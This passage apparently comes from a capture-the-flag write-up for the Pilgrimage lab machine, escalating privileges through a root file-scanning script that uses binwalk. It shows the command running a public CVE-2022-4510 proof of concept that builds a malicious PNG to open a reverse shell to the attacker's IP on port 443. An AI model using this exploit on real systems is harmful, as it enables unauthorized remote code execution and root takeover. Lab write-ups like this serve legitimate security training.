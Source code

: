 ```bash
	done
done
```
Basically, this script is constantly running and looks at the /shrunk/ directory for incoming files. When one comes in, it checks if the file contains any banned strings, in this case Executable script or Microsoft Executable. If it finds them, they are instantly deleted. Otherwise, it goes through the conversion program. 
The biggest revelation here is that it utilizes binwalk. 
via chatGPT:
```
In summary, this script is designed to monitor a directory for new file creations and check if the files contain any blacklisted strings using `binwalk`. If a blacklisted string is found, the script deletes the file.
```
So I'll need to learn a bit about binwalk to get further...
```
emily@pilgrimage:~$ binwalk

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk

```
Yay version number!

I managed to find a PoC that should work:
https://www.exploit-db.com/exploits/51249

You can feed it a image file, in this case a .png file, your attacker ip, and port number. It will then create a new png file called `binwalker_exploit.png`
From there, I upload it to the victim in the /var/www/pilgrimage.htb/shrink/ directory since it has a constantly running script that runs files that go in there to shrink them. If it works, I should get a connection back to my machine on the port I specified. It needs to be done in order though. 

Through trial and error, I discovered some ports don't work, but 443 seems to work fine. 
```
python privesc.py dice.png 10.10.14.77 443

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.


```
